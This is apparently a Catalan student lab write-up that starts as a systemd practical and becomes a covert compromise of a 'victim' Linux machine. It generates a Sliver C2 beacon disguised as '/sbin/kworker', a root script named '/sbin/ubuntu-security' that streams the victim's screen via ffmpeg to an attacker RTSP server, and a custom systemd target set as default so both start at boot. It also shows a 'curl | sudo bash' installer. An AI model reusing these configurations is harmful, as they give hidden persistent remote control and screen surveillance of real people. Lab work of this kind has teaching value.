## SystemV, Upstart i Systemd

**SystemV, Upstart i systemd** són diferents sistemes d'inici i gestió de serveis. SystemV utilitza _runlevels_, mentre que systemd utilitza _targets_, que són el seu equivalent modern. Upstart és un sistema intermedi basat en esdeveniments. En el nostre sistema operatiu utilitzem **systemd**.

En SystemV, els principals directoris relacionats amb l'inici són:

- `/etc/init.d/` → scripts dels serveis.
- `/etc/rc0.d/` → serveis del nivell 0 (aturada).
- `/etc/rc1.d/` → nivell 1 (mode monousuari).
- `/etc/rc2.d/` → nivell 2.
- `/etc/rc3.d/` → nivell 3.
- `/etc/rc4.d/` → nivell 4.
- `/etc/rc5.d/` → nivell 5 (mode gràfic).
- `/etc/rc6.d/` → nivell 6 (reinici).

Els directoris `rc*.d` contenen enllaços als scripts de `/etc/init.d/`. Les lletres `S` i `K` indiquen, respectivament, iniciar (_Start_) i aturar (_Kill_) un servei.

## Conceptes

::::note

- **Kernel** → gestiona processos i recursos del sistema.
- **Aplicació** → programa amb què interactua l'usuari i que s'executa en primer pla.
- **Servei** → programa associat al sistema operatiu que s'executa habitualment en segon pla.
- **Procés** → instància d'un programa en execució gestionada pel sistema operatiu.

> **Nota:** les aplicacions i els serveis generen processos que són sincronitzats i planificats pel sistema operatiu.
> ::::

### Nivells d'execució i targets

La pràctica demanada consisteix a crear un `target` personalitzat de `systemd` i configurar-lo com a target predeterminat.

L'objectiu és:

- Crear un `target` personalitzat.
- Fer que arrenqui juntament amb l'entorn gràfic.
- Associar-hi un servei.
- Executar el servei amb permisos de `root`.
- Configurar el nou `target` com a predeterminat.
- Comprovar el funcionament després del reinici.

La configuració utilitzada en aquesta pràctica inclou un entorn C2[^1] i un servidor de streaming per vigilar la pantalla de la victima.

## Instal·lació i configuració del C2

Per instal·lar Sliver he utilitzat el binari proporcionat pel projecte, tot i que també existeix un script d'instal·lació automàtica.

| Instal·lació amb binari                                                                                         | Instal·lació automàtica                       |
| --------------------------------------------------------------------------------------------------------------- | --------------------------------------------- |
| `wget -qO sliver-server https://github.com/BishopFox/sliver/releases/download/v1.7.6/sliver-server_linux-amd64` | `curl https://sliver.sh/install \| sudo bash` |



Posteriorment he iniciat el servidor i he generat el binari que utilitzarà el servei.

La comunicació s'ha configurat mitjançant mTLS.

```bash
generate --os linux beacon --mtls 192.168.203.128:8443 --save kworker
```




El binari s'ha enviat al sistema de proves i s'ha col·locat a `/sbin`.





## Instal·lació del servidor de streaming

He descarregat el binari de MediaMTX i l'he descomprimit a `~/.local/bin` per tenir-lo disponible localment.

```bash
wget https://github.com/bluenviron/mediamtx/releases/download/v1.21.1/mediamtx_v1.21.1_linux_amd64.tar.gz
tar xzf mediamtx_v1.21.1_linux_amd64.tar.gz
rm mediamtx_v1.21.1_linux_amd64.tar.gz
```

Finalment, he iniciat el servidor amb la configuració per defecte.



Aquesta eina permet retransmetre, guardar els videos/ contingut i més amb un configuració `simple` de yml, però se pot usar sense i per defecte actuara com servidor que reb els videos.

- Permet molts protocols, com WebRTC, RSTP, HLS, raspberry cameres, etc

## Configuració de la víctima

A continuació he creat el `target` i el servei de `systemd`, he habilitat el servei i he configurat els permisos d'execució corresponents.

### Script de captura amb FFmpeg

L'script utilitzat per enviar els fotogrames de vídeo és el següent:

Dependencia victima: sudo apt install ffmpeg
Dependencia atacant: ffplay

Ho fa mitjançat el protocol de streaming RSTP.

```bash title="/sbin/ubuntu-security"
#!/bin/env bash

LOG_FILE='/var/log/ubuntu-sec.log'

exec > "$LOG_FILE" 2>&1

while true; do
    echo "[$(date)] Iniciant ffmpeg..." | tee -a

    ffmpeg \
      -device /dev/dri/card0 \
      -framerate 10 \
      -r 10 \
      -f kmsgrab \
      -i - \
      -vf 'hwdownload,format=bgr0,crop=iw:ih-mod(ih\\,2):0:0' \
      -c:v libx264 \
      -preset ultrafast \
      -tune zerolatency \
      -f rtsp \
      -rtsp_transport tcp \
      rtsp://192.168.203.128:8554/screen

    EXIT_CODE=$?

    echo "[$(date)] ffmpeg ha terminat (codi $EXIT_CODE)."
    echo "[$(date)] Reintentant en 2 segons..."

    sleep 2
done
```



Aquesta part es podria ampliar a una infraestructura més gran amb serveis de monitoratge cameres com Shinobi (+AI), Frigate, UnifiProtect (AI)

Que alguns tenen integració en IA que podria vigilar moments claus.

### Target personalitzat

El `target` s'ha creat a:

```ini title="/usr/lib/systemd/system/cire.target"
[Unit]
Description=Target personalitzat Cire
Requires=graphical.target
After=cire.service graphical.target
Wants=graphical.target
AllowIsolate=yes
```

### Servei de systemd

El servei s'ha creat a:

```ini title="/etc/systemd/system/cire.service"
[Unit]
Description=Cire Init Target
Before=cire.target
After=graphical.target

[Service]
Type=oneshot
ExecStart=/bin/bash -c '/sbin/kworker & exec /sbin/ubuntu-security'
User=root
Group=root
RemainAfterExit=yes

[Install]
WantedBy=cire.target
```





### Configuració del target predeterminat

He configurat `cire.target` com a target predeterminat:

```bash
sudo systemctl set-default cire.target
```




## Comprovació

Després de reiniciar el sistema, he comprovat que el `target` s'inicia correctament i que es realitzen les connexions configurades.

També es pot provar el `target` sense reiniciar:

```bash title="Alternativa a reiniciar..."
sudo systemctl isolate default.target
```



Les tasques asíncrones del beacon poden fer que algunes operacions no siguin immediates.


## Reproducció del streaming

El servidor RTSP permet comprovar la transmissió amb `ffplay`:

```bash title="Comanda per observar el 'directe' retransmès"
ffplay rtsp://127.0.0.1:8554/screen
```





[^1]: SentinelOne. (2025, 13 agosto). ¿Qué son los servidores de comando y control (C2)? SentinelOne. https://www.sentinelone.com/es/cybersecurity-101/threat-intelligence/what-are-command-control-c2-servers/

> Controlador central de _backend_ operat per l'atacant per coordinar els atacs, enviar càrregues útils i gestionar les dades sostretes.
